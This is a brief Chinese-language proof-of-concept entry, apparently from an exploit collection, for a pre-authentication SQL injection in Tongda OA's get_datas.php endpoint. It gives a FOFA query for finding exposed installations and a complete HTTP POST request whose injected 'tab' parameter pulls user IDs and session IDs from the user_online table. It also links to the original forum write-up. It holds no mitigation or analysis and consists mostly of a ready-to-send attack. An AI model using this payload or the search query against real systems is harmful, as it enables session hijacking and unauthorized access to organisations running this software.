 ## 通达OA get_datas.php前台sql注入

##  fofa
```
app="TDXK-通达OA"
```

## POC
```
POST /general/reportshop/utils/get_datas.php HTTP/1.1
Host: {{HostName}}
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Length: 2

USER_ID=OfficeTask&PASSWORD=&col=1,1&tab=5 where 1={`\='` 1} union (select uid,sid from user_online where 1\={`=` 1})-- '1**
```
![image](../../images/55ba1ee3-215b-4fd2-8c0c-0694a20f6bfd.png)

![image](../../images/3d0399a3-9fe9-46d9-b725-12acb84d422c.png)


## 漏洞来源
```
https://forum.butian.net/share/278
```
